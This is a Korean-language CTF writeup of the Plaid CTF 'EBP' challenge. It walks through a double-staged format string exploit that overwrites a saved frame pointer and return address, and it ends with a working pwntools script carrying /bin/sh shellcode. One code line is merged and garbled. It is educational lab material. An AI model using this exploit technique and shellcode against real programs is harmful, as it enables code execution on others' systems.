 ```yaml
---
layout: post
title: "Plaid CTF EBP Writeup"
tags:
    - writeup
    - Plaid CTF
    - pwnable
    - t4ngo
---
```


# Plaid CTF EBP Writeup

ctf 문제를 많이 풀어보지는 못했지만 plaid ctf에서 괜찮은 문제가 많은 것 같아 찾아보던 중 EBP라는 문제가 재밌어보여서 포스팅하게 되었습니다!

사실 이번 문제는 FSB(Format String Bug)에 관한 것인데 3년전 문제이기도 하고 요즘은 FSB가 많이 나오지 않는 추세로 알고 있어서 '이걸 아직도 해?' 라고 하시는 분들도 계실 수 있지만 그래도 과거가 있기에 현재가 있는 법! 저와 같이 EBP 문제를 풀며 FSB를 다시 한 번 복습해봅시다!

먼저 Binary를 실행하면 아래와 같이 그냥 입력을 받고 그대로 출력해주는 동작이 끝입니다.

![image](/images/t4ngo/plaidctf_ebp_wirteup/plaidctf_ebp_writeup_01.PNG)

그럼, 좀 더 자세히 알아보기 위해 IDA로 까봅시다!

![image](/images/t4ngo/plaidctf_ebp_wirteup/plaidctf_ebp_writeup_02.PNG)

main에서는 buf에 1024byte만큼 입력을 받고 echo() 함수를 호출합니다.

![image](/images/t4ngo/plaidctf_ebp_wirteup/plaidctf_ebp_writeup_03.PNG)

ehco() 함수는 make_response() 함수를 호출하고 puts()로 response를 출력합니다.

![image](/images/t4ngo/plaidctf_ebp_wirteup/plaidctf_ebp_writeup_04.PNG)

make_response() 함수를 보면 snprintf()를 이용하여 buf의 값을 response에 복사하여 주는 것을 알 수 있습니다.

위 코드를 보고 make_response() 함수에 FSB가 존재한다는 것을 알아채셨겠죠? 하지만, 일반적인 FSB와는 달리 buf가 스택 영역이 아니기 때문에 스택을 마음대로 조작하기에는 어려운 부분이 있죠!

이를 해결하기 위해 Double Staged FSB라는 기법을 이용합니다. (위 내용은 <http://kblab.tistory.com/271>에 잘 정리가 되어 있어서 참고하시면 좋을 것 같습니다!)

다음으로 snprintf()가 호출되기 직전의 stack 상황을 살펴봅니다.

![image](/images/t4ngo/plaidctf_ebp_wirteup/plaidctf_ebp_writeup_05.PNG)

ebp를 확인해보면 0xffffd5b8 위치하여 0xffffd5d8을 가리키고 있습니다. 여기서 당연하게도 0xffffd5d8은 이전 함수 프레임의 ebp를 뜻하겠죠? >_0

그런 다음, 0xffffd5d8 위치를 살펴보면 0xffffd5f8 들어있는 것을 알 수 있습니다. 즉, 이전 함수의 SFP는 0xffffd5f8이라는 사실을 알 수 있습니다. 그리고 이전 함수의 ret는 0xffffd5dc에 위치한 0x08048557이 되겠죠?

여기서 현재 함수의 EBP를 이용하여 이전 함수의 SFP 값을 0xffffd5dc로 바꾸어주면 됩니다.

정리하자면..

1. 현재 함수의 ebp를 이용하여 이전 함수의 SFP 변경
2. 변경된 SFP는 ret를 가리키고 있으므로 컨트롤 가능

그렇다면 이제 FSB를 이용하여 EBP 값이 얼마나 떨어져있는지 확인해 봅시다!

![image](/images/t4ngo/plaidctf_ebp_wirteup/plaidctf_ebp_writeup_06.PNG)

4번째에 0xffffd5f8이 찍히긴 하지만 우리가 확인한 0xffffd5d8이 아닌 0xffffd5f8이 들어있습니다! 하지만, ret는 제대로 나오는 군요! 아마, 실제 메모리에 올라가면서 살짝 뒤로 밀린 것 같네요! O_O

그렇다면 다음과 같은 시나리오를 짤 수 있습니다!

1. %x%x%x%x으로 이전 함수의 SFP 확인
2. 알아낸 ebp+4를 통해 ret가 저장된 주소 계산
3. ret가 저장된 주소로 이전 함수의 SFP OverWrite (shellcode를 넣을 수 있는 곳 확보)
4. shellcode를 저장
5. shellcode가 저장된 곳으로 ret OverWrite

위와 같은 시나리오를 바탕으로 exploit 코드를 짜면 아래와 같습니다!

```
  1 from pwn import *
  2 import struct
  3 
  4 p = process("./ebp_a96f7231ab81e1b0d7fe24d660def25a.elf")
  5 
  6 p.send('%4$x\n')
  7 sleep(1)
  8 leak_addr = p.recv(1024)
  9 leak_addr = int(leak_addr,16)+4 & 0xffff
 10 
 11 payload = '%'+`leak_addr`+'c%4$hn\n'
 12 p.send(payload)
 13 
 14 p.recv(1024)shellcode = '\x31\xd2\x52\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x52\x53\x89\xe1\x8d\x42\x0b\xcd\x80'
 16 payload = shellcode+'%'+`(0xa080-len(shellcode))`+'c%12$hn\n'
 17 p.send(payload)
 18 p.recv(1024)
 19 
 20 p.interactive()

```
![image](./img/plaidctf_ebp_writeup_07.PNG)

exploit 성공!!! 수고하셨습니당~~

